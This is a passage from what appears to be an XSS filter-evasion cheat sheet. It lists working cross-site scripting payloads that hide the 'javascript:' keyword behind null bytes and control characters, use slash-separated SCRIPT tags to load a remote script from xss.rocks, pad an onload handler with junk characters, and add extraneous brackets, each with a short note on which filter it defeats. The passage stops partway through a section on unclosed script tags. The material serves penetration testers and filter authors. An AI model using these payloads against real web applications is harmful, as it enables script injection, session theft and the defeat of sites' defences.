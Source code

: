 `perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out`

### Spaces and Meta Chars Before the JavaScript in Images for XSS

This is useful if the pattern match doesn't take into account spaces in the word `javascript:` -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the `javascript:` keyword. The actual reality is you can have any char from 1-32 in decimal:

`<IMG SRC=" &#14;  javascript:alert('XSS');">`

### Non-alpha-non-digit XSS

The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefore considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:

`<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>`

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc...) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

````
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
````

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

`<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>`

### Extraneous Open Brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorithm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to suppress a JavaScript error:

`<<SCRIPT>alert("XSS");//\<</SCRIPT>`

### No Closing Script Tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't actually need the `\></SCRIPT>` portion of this Cross Site Scripting vector. Firefox assumes it's safe to close the HTML tag and add closing tags for you. How thoughtful\! Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they're not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:
